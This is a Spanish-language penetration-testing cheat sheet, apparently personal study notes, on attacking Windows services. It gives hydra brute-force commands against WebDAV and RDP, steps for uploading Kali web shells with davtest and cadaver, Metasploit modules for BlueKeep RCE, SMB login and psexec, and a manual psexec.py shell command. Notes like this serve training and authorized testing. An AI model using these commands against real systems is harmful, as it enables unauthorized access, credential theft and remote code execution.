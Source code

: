 Usar [[HYDRA]] para la fuerza bruta
`hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt <IP_Victima> http-get /webdav/`

Una vez con las credenciales usaremos [[DAVTEST]]
`davtest -auth <user:password> -url http://<IP_Victima>/webdav`
Esta herramienta comprueba que tipos de archivos se pueden subir y cuales se pueden ejecutar

Accedemos a webdav desde la herramienta [[CADAVER]]
`cadaver http://<IP_Victima>/webdav`

Una vez tenemos acceso podemos navegar por los directorios, vamos a cargar una shell usaremos las por defecto de Kali que se encuentran en `/usr/share/webshells`, se cargan con el comando `put` y la ruta completa de la shell

| MODULO                                      | FUNCION            | Opciones | Wordlist |
| ------------------------------------------- | ------------------ | -------- | -------- |
| *exploit/windows/iis/iis_webdav_upload_asp* | Explotacion WebDav |          |          |


#### BLUEKEEP

| MODULO                                           | FUNCION              | Opciones                    | Wordlist |
| ------------------------------------------------ | -------------------- | --------------------------- | -------- |
| *auxiliary/scanner/rdp/cve_2019_0708_bluekeep*   | Enumeración BlueKeep |                             |          |
| *exploit/windows/rdp/cve_2019_0708_bluekeep_rce* | Explotación BlueKeep | show targets<br>set targets |          |


#### SMB 

| MODULO                            | FUNCION                 | Opciones               | Wordlist |
| --------------------------------- | ----------------------- | ---------------------- | -------- |
| *auxiliary/scanner/smb/smb_login* | Enumeración SMB         | USER_FILE<br>PASS_FILE |          |
| *exploit/windows/smb/psexec*      | Explotación/Entrar  SMB |                        |          |
##### Forma manual
Una vez obtenemos usuario y contraseña usamos PSEXEC.PY 
`psexec.py <user>@<IP_Victima> cmd.exe`


#### RDP
| MODULO                               | FUNCION         | Opciones | Wordlist |
| ------------------------------------ | --------------- | -------- | -------- |
| *auxiliary/scanner/rdp/rdp_esscaner* | Enumeración RDP |          |          |
Usaremos [[HYDRA]] para hacer fuerza bruta contra el RDP
`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<IP_victima> -s <puerto>`

Obtenemos la contraseña y accedemos al servicio
En caso de que use xfreerdp
![[Pasted image 20250221124743.png]]
